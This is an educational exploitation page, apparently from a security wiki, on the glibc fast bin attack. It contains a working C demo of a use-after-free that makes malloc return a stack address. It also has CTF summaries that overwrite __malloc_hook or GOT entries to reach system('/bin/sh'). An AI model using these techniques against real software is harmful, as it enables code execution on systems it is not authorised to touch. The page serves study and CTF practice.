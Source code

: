 # Fast Bin Attack





## Basic Information

For more information about what is a fast bin check this page:

{% content-ref url="bins-and-memory-allocations.md" %}
[bins-and-memory-allocations.md](bins-and-memory-allocations.md)
{% endcontent-ref %}

Because the fast bin is a singly linked list, there are much less protections than in other bins and just **modifying an address in a freed fast bin** chunk is enough to be able to **allocate later a chunk in any memory address**.

As summary:

{% code overflow="wrap" %}
```c
ptr0 = malloc(0x20);
ptr1 = malloc(0x20);

// Put them in fast bin (suppose tcache is full)
free(ptr0)
free(ptr1)

// Use-after-free
// Modify the address where the free chunk of ptr1 is pointing
*ptr1 = (unsigned long)((char *)&<address>);

ptr2 = malloc(0x20); // This will get ptr1
ptr3 = malloc(0x20); // This will get a chunk in the <address> which could be abuse to overwrite arbitrary content inside of it
```
{% endcode %}

You can find a full example in a very well explained code from [https://guyinatuxedo.github.io/28-fastbin\_attack/explanation\_fastbinAttack/index.html](https://guyinatuxedo.github.io/28-fastbin\_attack/explanation\_fastbinAttack/index.html):

```c
#include <stdio.h>
#include <string.h>
#include <stdlib.h>

int main(void)
{
    puts("Today we will be discussing a fastbin attack.");
    puts("There are 10 fastbins, which act as linked lists (they're separated by size).");
    puts("When a chunk is freed within a certain size range, it is added to one of the fastbin linked lists.");
    puts("Then when a chunk is allocated of a similar size, it grabs chunks from the corresponding fastbin (if there are chunks in it).");
    puts("(think sizes 0x10-0x60 for fastbins, but that can change depending on some settings)");
    puts("\nThis attack will essentially attack the fastbin by using a bug to edit the linked list to point to a fake chunk we want to allocate.");
    puts("Pointers in this linked list are allocated when we allocate a chunk of the size that corresponds to the fastbin.");
    puts("So we will just allocate chunks from the fastbin after we edit a pointer to point to our fake chunk, to get malloc to return a pointer to our fake chunk.\n");
    puts("So the tl;dr objective of a fastbin attack is to allocate a chunk to a memory region of our choosing.\n");

    puts("Let's start, we will allocate three chunks of size 0x30\n");
    unsigned long *ptr0, *ptr1, *ptr2;

    ptr0 = malloc(0x30);
    ptr1 = malloc(0x30);
    ptr2 = malloc(0x30);

    printf("Chunk 0: %p\n", ptr0);
    printf("Chunk 1: %p\n", ptr1);
    printf("Chunk 2: %p\n\n", ptr2);


    printf("Next we will make an integer variable on the stack. Our goal will be to allocate a chunk to this variable (because why not).\n");

    int stackVar = 0x55;

    printf("Integer: %x\t @: %p\n\n", stackVar, &stackVar);

    printf("Proceeding that I'm going to write just some data to the three heap chunks\n");

    char *data0 = "00000000";
    char *data1 = "11111111";
    char *data2 = "22222222";

    memcpy(ptr0, data0, 0x8);
    memcpy(ptr1, data1, 0x8);
    memcpy(ptr2, data2, 0x8);

    printf("We can see the data that is held in these chunks. This data will get overwritten when they get added to the fastbin.\n");

    printf("Chunk 0: %s\n", (char *)ptr0);
    printf("Chunk 1: %s\n", (char *)ptr1);
    printf("Chunk 2: %s\n\n", (char *)ptr2);

    printf("Next we are going to free all three pointers. This will add all of them to the fastbin linked list. We can see that they hold pointers to chunks that will be allocated.\n");

    free(ptr0);
    free(ptr1);
    free(ptr2);

    printf("Chunk0 @ 0x%p\t contains: %lx\n", ptr0, *ptr0);
    printf("Chunk1 @ 0x%p\t contains: %lx\n", ptr1, *ptr1);
    printf("Chunk2 @ 0x%p\t contains: %lx\n\n", ptr2, *ptr2);

    printf("So we can see that the top two entries in the fastbin (the last two chunks we freed) contains pointers to the next chunk in the fastbin. The last chunk in there contains `0x0` as the next pointer to indicate the end of the linked list.\n\n");


    printf("Now we will edit a freed chunk (specifically the second chunk \"Chunk 1\"). We will be doing it with a use after free, since after we freed it we didn't get rid of the pointer.\n");
    printf("We will edit it so the next pointer points to the address of the stack integer variable we talked about earlier. This way when we allocate this chunk, it will put our fake chunk (which points to the stack integer) on top of the free list.\n\n");

    *ptr1 = (unsigned long)((char *)&stackVar);

    printf("We can see it's new value of Chunk1 @ %p\t hold: 0x%lx\n\n", ptr1, *ptr1);


    printf("Now we will allocate three new chunks. The first one will pretty much be a normal chunk. The second one is the chunk which the next pointer we overwrote with the pointer to the stack variable.\n");
    printf("When we allocate that chunk, our fake chunk will be at the top of the fastbin. Then we can just allocate one more chunk from that fastbin to get malloc to return a pointer to the stack variable.\n\n");

    unsigned long *ptr3, *ptr4, *ptr5;

    ptr3 = malloc(0x30);
    ptr4 = malloc(0x30);
    ptr5 = malloc(0x30);

    printf("Chunk 3: %p\n", ptr3);
    printf("Chunk 4: %p\n", ptr4);
    printf("Chunk 5: %p\t Contains: 0x%x\n", ptr5, (int)*ptr5);

    printf("\n\nJust like that, we executed a fastbin attack to allocate an address to a stack variable using malloc!\n");
}
```

{% hint style="danger" %}
If it's possible to overwrite the value of the global variable **`global_max_fast`** with a big number, this allows to generate fast bin chunks of bigger sizes, potentially allowing to perform fast bin attacks in scenarios where it wasn't possible previously. This situation useful in the context of [large bin attack](large-bin-attack.md) and [unsorted bin attack](unsorted-bin-attack.md)
{% endhint %}

## Examples

* **CTF** [**https://guyinatuxedo.github.io/28-fastbin\_attack/0ctf\_babyheap/index.html**](https://guyinatuxedo.github.io/28-fastbin\_attack/0ctf\_babyheap/index.html)**:**
  * It's possible to allocate chunks, free them, read their contents and fill them (with an overflow vulnerability).
    * **Consolidate chunk for infoleak**: The technique is basically to abuse the overflow to create a fake `prev_size` so one previous chunks is put inside a bigger one, so when allocating the bigger one containing another chunk, it's possible to print it's data an leak an address to libc (`main_arena+88`).
    * **Overwrite malloc hook**: For this, and abusing the previous overlapping situation, it was possible to have 2 chunks that were pointing to the same memory. Therefore, freeing them both (freeing another chunk in between to avoid protections) it was possible to have the same chunk in the fast bin 2 times. Then, it was possible to allocate it again, overwrite the address to the next chunk to point a bit before `__malloc_hook` (so it points to an integer that malloc thinks is a free size - another bypass), allocate it again and then allocate another chunk that will receive an address to malloc hooks.\
      Finally a **one gadget** was written in there.
* **CTF** [**https://guyinatuxedo.github.io/28-fastbin\_attack/csaw17\_auir/index.html**](https://guyinatuxedo.github.io/28-fastbin\_attack/csaw17\_auir/index.html)**:**
  * There is a heap overflow and use after free and double free because when a chunk is freed it's possible to reuse and re-free the pointers
    * **Libc info leak**: Just free some chunks and they will get a pointer to a part of the main arena location. As you can reuse freed pointers, just read this address.
    * **Fast bin attack**: All the pointers to the allocations are stored inside an array, so we can free a couple of fast bin chunks and in the last one overwrite the address to point a bit before this array of pointers. Then, allocate a couple of chunks with the same size and we will get first the legit one and then the fake one containing the array of pointers. We can now overwrite this allocation pointers to make the GOT address of `free` point to `system` and then write `"/bin/sh"` in chunk 1 to then call `free(chunk1)` which instead will execute `system("/bin/sh")`.
* **CTF** [**https://guyinatuxedo.github.io/33-custom\_misc\_heap/csaw19\_traveller/index.html**](https://guyinatuxedo.github.io/33-custom\_misc\_heap/csaw19\_traveller/index.html)
  * Another example of abusing a one byte overflow to consolidate chunks in the unsorted bin and get a libc infoleak and then perform a fast bin attack to overwrite malloc hook with a one gadget address
* **CTF** [**https://guyinatuxedo.github.io/33-custom\_misc\_heap/csaw18\_alienVSsamurai/index.html**](https://guyinatuxedo.github.io/33-custom\_misc\_heap/csaw18\_alienVSsamurai/index.html)
  * After an infoleak abusing the unsorted bin with a UAF to leak a libc address and a PIE address, the exploit of this CTF used a fast bin attack to allocate a chunk in a place where the pointers to controlled chunks were located so it was possible to overwrite certain pointers to write a one gadget in the GOT
  * You can find a Fast Bin attack abused through an unsorted bin attack:
    * Note that it's common before performing fast bin attacks to abuse the free-lists to leak libc/heap addresses (when needed).
* [**Robot Factory. BlackHat MEA CTF 2022**](https://7rocky.github.io/en/ctf/other/blackhat-ctf/robot-factory/)
  * We can only allocate chunks of size greater than `0x100`.
  * Overwrite `global_max_fast` using an Unsorted Bin attack (works 1/16 times due to ASLR, because we need to modify 12 bits, but we must modify 16 bits).
  * Fast Bin attack to modify the a global array of chunks. This gives an arbitrary read/write primitive, which allows to modify the GOT and set some function to point to `system`.

{% content-ref url="unsorted-bin-attack.md" %}
[unsorted-bin-attack.md](unsorted-bin-attack.md)
{% endcontent-ref %}




